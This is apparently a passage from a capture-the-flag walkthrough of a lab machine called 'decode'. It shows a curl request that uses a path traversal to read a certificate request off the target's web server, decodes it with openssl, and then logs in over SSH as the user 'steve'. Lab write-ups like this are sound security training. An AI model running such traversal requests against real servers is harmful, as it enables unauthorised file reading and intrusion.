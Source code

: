 ```bash
A37vepuR4F3ycnFKdFyRhk1rtO1LE9OWOI3bQ7kW0wIFuRaqFONsG/mvGFgEfRR8
xpgSYmnzWJQ0nTOtGi6d7F0dFFmYIXe75+6QYM2ZwAYf3lW+HRKLXhh5FMeoXJHo
eU64o9tFdhWxcB1OLAGEG9MI6AhN62ZTrKwMq13/PIteoPAEnlVgBidxQxUVHQfO
EwMP38jzm+HESbZsNVjX4RQjtvBUAKQUTBRYuS02QqqC5ajHz0RWaGgrGIyKrip5
yRjgsjxtmadaetxSasIg5tsjSFGyyVVPsdY4umAUUm+dSobruxcyXuxXIgn27Z7M
h97It2ELpw==
-----END CERTIFICATE REQUEST-----
```

I wilh decode thi SSL:

```bash
curl http://192.168.0.106/decode../usr/share/ssl-cert/decode.csr -s > decode.csr
openssl req -in decode.csr -noout -text
```

![](/assets/images/Decode-1.png)

### 3.2. Access as `steve`

I will access as `steve`:

```bash
❯ ssh steve@192.168.0.106
steve@192.168.0.106's password: 

steve@decode:~$ 
```

```bash
steve@decode:/$ cd /home/ajneya/
steve@decode:/home/ajneya$ ls -l
total 4
-r-------- 1 ajneya ajneya 33 Apr 14  2022 user.txt
```
